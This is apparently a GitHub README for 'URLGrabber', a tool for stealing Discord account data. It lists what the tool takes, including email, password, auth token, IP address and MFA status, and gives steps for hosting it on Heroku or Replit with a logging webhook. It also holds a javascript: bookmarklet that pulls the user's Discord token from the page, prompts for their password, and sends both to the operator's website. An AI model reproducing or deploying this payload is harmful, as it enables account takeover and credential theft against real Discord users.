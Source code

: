 # URLGrabber
Just a simple URL Grabber made in Python :) 

# Features

**Grabs the following information:** 

- User ID

- Username

- Account Created At

- Avatar

- Banner

- Email

- Password

- Phone

- Token

- Access Token (Auth)

- IP Address

- User Agent

- MFA Enabled

- NSFW Allowed

- Locale

- Nitro Type

- Nitro Subscriber Since 

- Nitro Ending Date

- Badges

- Friend Count

- DM Channels Count

- Guild Count

# Showcase

![embed_1](/images/embed_1.png)
![embed_2](/images/embed_2.png)

# Setup

## On Heroku

> https://heroku.com/

1. Fork the repository.
2. Connect it to an heroku app.
3. Add heroku/python buildpack.
4. Go to config vars and add required variables.
    - WEBHOOK_URL = URL of the logging webhook
    - AUTH_URL = Authorization URL of your bot, you can leave it empty.
5. Procfile and requirements.txt are already configured, just enable dynos and let it run.
6. Go to App Settings > Domains > Copy the domain of your app.


## On Repl.it

> https://replit.com/

1. Fork the repository.
2. Create a new repl from this repository.
3. Go to secrets and add required secrets.
    - WEBHOOK_URL = URL of the logging webhook
    - AUTH_URL = Authorization URL of your bot, you can leave it empty.
4. Install requirements.txt somehow idk i don't use replit.
5. Run the repl.
6. Copy the URL of your website by going to the web section.

## How to use?

- Replace `yourwebsite.com` with your url in the code given below.
```
javascript:(async() => { const token = (webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void%200).exports.default.getToken();const%20pass%20=%20prompt(%22Enter%20your%20Account%20Password:%20%22);window.location.href%20=%20`https://yourwebsite.com/?user=${token}:${pass}`;})()
```
- Code Credits to [@iambhuv](https://github.com/iambhuv) :)

# Developers

- [@DraKen3301](https://github.com/DraKen3301)

# Troubleshooting and Suggestions

> You can mail me at ask@drakencodes.tech or dm me on discord at DraKen#3301.
